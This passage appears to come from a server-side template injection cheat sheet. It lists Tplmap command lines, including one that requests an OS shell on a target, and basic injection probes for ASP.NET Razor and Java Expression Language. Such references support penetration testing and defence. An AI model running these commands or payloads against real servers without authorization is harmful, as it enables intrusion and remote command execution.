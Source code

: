 ## Tools

Recommended tool: [Tplmap](https://github.com/epinna/tplmap)
e.g:

```powershell
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```

## Methodology

![SSTI cheatsheet workflow](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)

---

## ASP.NET Razor

[Official website](https://docs.microsoft.com/en-us/aspnet/web-pages/overview/getting-started/introducing-razor-syntax-c)
> Razor is a markup syntax that lets you embed server-based code (Visual Basic and C#) into web pages.

### ASP.NET Razor - Basic injection

```powershell
@(1+2)
```

### ASP.NET Razor - Command execution

```csharp
@{
  // C# code
}
```

---

## Expression Language EL

[Official website](https://docs.oracle.com/javaee/6/tutorial/doc/gjddd.html)
> Expression Language (EL) is mechanism that simplifies the accessibility of the data stored in Java bean component and other object like request, session and application, etc. There are many operators in JSP that are used in EL like arithmetic and logical operators to perform an expression. It was introduced in JSP 2.0

### Expression Language EL - Basic injection

```java
${1+1}
#{1+1}
```
